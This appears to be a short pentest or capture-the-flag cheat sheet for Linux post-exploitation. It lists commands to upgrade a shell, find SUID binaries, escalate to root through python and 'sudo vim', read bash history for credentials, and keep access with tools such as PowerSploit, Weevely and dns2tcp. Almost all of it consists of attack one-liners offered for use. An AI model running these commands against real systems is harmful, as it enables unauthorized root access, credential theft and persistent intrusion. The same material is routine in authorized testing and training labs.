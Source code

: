 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
OUPUT: 
- root Shell


## Stablish Shell
[python]
```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
```

## Privilege Escalation
[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]


## Maintain Access
- PowerSploit
- Weewly
- dns2tcp